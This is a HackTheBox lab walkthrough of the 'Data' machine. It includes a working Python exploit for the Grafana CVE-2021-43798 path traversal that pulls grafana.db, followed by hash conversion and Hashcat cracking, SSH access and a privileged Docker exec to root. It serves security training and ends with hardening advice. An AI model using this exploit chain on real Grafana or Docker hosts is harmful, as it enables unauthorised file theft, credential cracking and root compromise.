










# Data HackTheBox Walkthrough

This report documents a full exploitation chain of a vulnerable Grafana 8.0.0 instance, 
showcasing reconnaissance, exploitation of CVE-2021-43798 (Grafana Path Traversal), 
database extraction, credential cracking, privilege escalation, and final root compromise via Docker.

---

## 1. Initial Reconnaissance

We begin with a full Nmap scan to identify open ports, running services, and potential attack surfaces:

```bash
nmap -p- -Pn 10.129.234.47 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.234.47 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.234.47 -v --script vuln -oN nmap_vuln.txt
```



Port **3000** exposed a **Grafana v8.0.0** web interface:


---

## 2. Exploitation: Grafana Path Traversal (CVE-2021-43798)

Using Metasploit, we validated the existence of the vulnerability and confirmed successful exploitation output:



To deepen our access, we analyzed the response and determined that the target was susceptible to directory traversal.  
We referred to the official analysis:  
[Dissecting the Grafana Path Traversal Vulnerability](https://ethicalhacking.uk/cve-2021-43798-dissecting-the-grafana-path-traversal-vulnerability/#gsc.tab=0)

---

## 3. Database Extraction

Instead of targeting `/etc/passwd`, we modified the exploit to retrieve Grafana’s internal SQLite database from:

`/var/lib/grafana/grafana.db`

### Modified Python Exploit

```python
import sys
import requests

def main():
    if len(sys.argv) != 3:
        print("Usage: python exploit_fixed.py <IP> <port>")
        sys.exit(1)

    ip = sys.argv[1]
    port = sys.argv[2]
    url = f"http://{ip}:{port}/public/plugins/alertlist/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/var/lib/grafana/grafana.db"
    output_file = "grafana.db"

    try:
        print(f"[*] Downloading database from {url}")
        response = requests.get(url, timeout=10)

        if response.status_code == 200:
            with open(output_file, 'wb') as f:
                f.write(response.content)
            print(f"[+] Database saved successfully to {output_file}")
            print(f"[*] Now you can open it with: sqlite3 {output_file}")
        else:
            print(f"[-] Failed to download file. Status code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    main()
```

Execute:

```bash
python exploit_fixed.py 10.129.234.47 3000
```



---

## 4. Database Analysis & Credential Extraction

Once downloaded, the SQLite file was inspected to identify relevant tables and columns within the `user` schema:



We extracted password hashes and transformed them for **Hashcat** compatibility using:  
[Grafana2Hashcat Tool](https://github.com/iamaldi/grafana2hashcat)

```bash
python3 grafana2hashcat.py ../hashes.txt
```

We then cracked the user credentials using **Hashcat**:

```bash
hashcat -m 10900 hashcat_hashes.txt --wordlist rockyou.txt
```



Recovered credentials granted us access via SSH to **boris**, obtaining the **user flag**:



---

## 5. Privilege Escalation via Docker Misconfiguration

Upon running privilege enumeration:

```bash
sudo -l
```

We discovered Docker execution privileges:



We listed mounted devices and verified container runtime:

```bash
mount
ps auxww | grep docker
```




Then, we exploited Docker to spawn a privileged root shell:

```bash
sudo docker exec -it --privileged --user root e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 bash
```



We mounted the main filesystem and retrieved the **root flag**:

```bash
mount /dev/sda1 /mnt/
```

---

## 6. Conclusion

This assessment highlights a complete compromise chain starting from a **Grafana web service** to **root-level access** via Docker misconfiguration.  

**Key findings:**

- Grafana 8.0.0 vulnerable to CVE-2021-43798 allowed arbitrary file read.  
- Extracted `grafana.db` exposed user password hashes.  
- Weak credentials allowed SSH login to an internal user.  
- Docker misconfiguration granted root privileges to any sudo-capable user.

**Security recommendations:**

- Update Grafana to the latest stable version.  
- Restrict Grafana’s file system access and network exposure.  
- Implement strict password complexity and enforce rotation policies.  
- Avoid granting Docker or privileged sudo permissions to non-admin users.  
- Regularly monitor configuration drift and audit container privileges.

---
